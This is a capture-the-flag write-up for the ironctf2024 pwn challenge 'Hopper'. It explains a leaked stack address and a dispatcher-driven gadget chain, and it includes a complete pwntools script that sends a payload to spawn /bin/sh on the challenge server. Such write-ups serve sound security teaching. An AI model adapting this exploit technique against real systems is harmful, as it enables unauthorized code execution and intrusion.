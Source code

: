 # Hopper
## Description
Hippety-hop... Hippety-hop your way to victory!

Ctf: ironctf2024 https://ctf.1nf1n1ty.team/challenges#Hopper-15

Author: Vigneswar

Category: pwn

`nc pwn.1nf1n1ty.team 31886`

## Writeup
### Overview
In this challenge we are given only binary without source code so we need to make use of IDA free to see what this binary does.
But first we check what is this file using `file`  program
![](attachments/Pasted%20image%2020241006121743.png)
we also `checksec` to find out what security features does this binary have
![](attachments/Pasted%20image%2020241006121915.png)
from this we could say that this is nearly perfect binary for pwning, but life is not all roses and we cannot execute code from the stack.
Lets take look at what is inside, shall we?

![](attachments/Pasted%20image%2020241006122327.png)

there is not even main function in this programme so we take a look at `start` .
What it does is:
- print a bunny ascii image
- print retaddr (very important for us)
- print "hop hop" as ascii image
- takes our input to a stack
- jumps to an address that that is at the top of our input

Why is this retaddr important for us?
Thanks to it we can find out where is stack located, and we can reference addresses according to this leaked address.
Luckily for us we are provided some gadgets that can help us exploit this challenge.

![](attachments/Pasted%20image%2020241006123411.png)
![](attachments/Pasted%20image%2020241006123425.png)![](attachments/Pasted%20image%2020241006123440.png)![](attachments/Pasted%20image%2020241006123711.png)
### Plan for an exploit
Since we cannot execute the code from the stack we need to use provided gadgets to execute `syscall` of `execve`. What this means is we have to set some registers according to requirements
[x64.syscall.sh](https://x64.syscall.sh/)

![](attachments/Pasted%20image%2020241006123857.png)
- `RAX` has to be `0x3B`
- `RDI` has to be pointer to the beginning of `/bin/sh` string
- `RSI` has to be `0`
- `RDX` has to be `0`
and we need to execute `syscall` after that

How do we control the flow of the programme using those gadgets? 
If we put address of dispatcher in `r15` (address that is jumped to at the end of most of the gadgets) we can use it to jump to some gadget like

![](attachments/Pasted%20image%2020241006124910.png)

and then jump back to `r15` - dispatcher 
what dispatcher does is it increases value in `rbx` by `8`  and jumps to address that is pointed by address in this register. So we can essentially use it to walk the gadgets of which we put addresses on the stack.
### Actual exploit
In order to do that we can put an address of gadgets at the top:
- address of `gadgets` gets popped of to `rsi`
- address of `/bin/sh\x00` gets popped of to `rdi`
- address of we leaked earlier gets popped of to `rbx` (this is the address that will be used by dispatcher)
- value of `0x3B` gets popped of to `r13`
- address of `dispacher` gets popped to `r15`
- we jump to `disparcher` 
- `dispacher` jumps to itself
- `dispatcher` jumps to gadgets that clears `rsi`
- `dispatcher` jumps to `xchg rax, r13` to set rax to be `0x3b`
- from there we jump to address that is at `rsp`
- from `dispatcher` we once again clear `rsi`
- from `dispatcher` we once again clear `rdx`
- finally we jump to `syscall`

Code:
```python
from pwn import remote, p64, u64

conn = remote("pwn.1nf1n1ty.team", 31886)

msg = conn.recvuntil(b'>>')
addr = msg[379: 379 + 8]

addr_int = u64(addr)
bin_sh_addr = addr_int + 8 * 6

gadget_chain = 0x401017
dispatcher_addr = 0x401011
xor_rsi = 0x401027
xchg_rax_r13 = 0x40100c
xor_rdx = 0x401021
syscall = 0x40100a

payload = p64(gadget_chain)
payload += p64(bin_sh_addr)         # rdi
payload += p64(addr_int)            # rbx
payload += p64(0x3b)                # r13 (later rax)
payload += p64(dispatcher_addr)     # r15 dispatcher
payload += p64(xor_rsi)             # clear rsi
payload += p64(xchg_rax_r13)        # swap rax and r13
payload += p64(xor_rdx)             # clear rdx
payload += p64(syscall)             # syscall
payload += b'/bin/sh\x00'

conn.sendline(payload)
conn.interactive()
```
### Pro tip
if you don't include null byte at the end of `/bin/sh` you might find yourself debugging for few additional hours